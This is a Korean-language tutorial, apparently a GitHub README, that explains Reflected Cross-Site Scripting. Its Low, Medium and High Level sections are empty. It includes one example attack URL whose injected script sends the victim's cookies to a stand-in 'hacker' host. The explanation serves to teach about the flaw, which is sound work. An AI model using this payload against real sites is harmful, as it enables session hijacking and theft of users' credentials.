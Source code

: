 # ⚜️XSS(Cross-Site Scripting)⚜️
### XSS(Cross-Site Scripting) 이란 웹 애플리케이션에서 일어나는 취약점으로 관리자가 아닌 권한이 없는 사용자가 웹 사이트에 스크립트를 삽입하는 공격 기법입니다.

<br>

## Reflected XSS

![R1280x0](https://user-images.githubusercontent.com/86994067/126744443-5ddcf547-29c5-4dcd-a368-4d4e48a0c202.png)

-> Reflected XSS 공격은 사용자에게 입력 받은 값을 서버에서 되돌려 주는 곳에서 발생합니다. 예를 들면 사용자에게 입력 받은 검색어를 그대로 보여주는 곳이나 사용자가 입력한 값을 에러 메세지에 포함하여 보여주는 곳에 악성스크립트가 삽입되면, 서버가 사용자의 입력 값을 포함해 응답해 줄 때 스크립트가 실행됩니다.  보통 Reflected XSS 는 공격자가 악의적인 스크립트와 함께 URL을 사용자에게 누르도록 유도하고, URL을 누른 사용자는 악의적인 스크립트가 실행되면서 공격을 당하게 됩니다.  

예를 들면, GET 방식으로 검색기능을 구현한 웹 애플리케이션에 XSS 취약점이 있음을 확인한 해커는 공격코드를 작성하였습니다. 편의상 URL 인코딩은 하지 않았습니다. 
```http://testweb?search=<script>location.href("http://hacker/cookie.php?value="+document.cookie);</script>```

악의적인 스크립트를 살펴보면 검색 인자로 작성한 스크립트를 넘겨줍니다. 해당 스크립트의 내용은 본인의 웹페이지로 URL을 클릭한 사용자의 쿠키 값이 전송되도록 되어 있습니다. 링크를 클릭한 사용자는 해커한테 본인의 의도와는 상관없이 자신의 쿠키 값을 전송하게 됩니다.


<br>

---

<br>

# Low Level



<br>

# Medium Level



<br>

# High Level







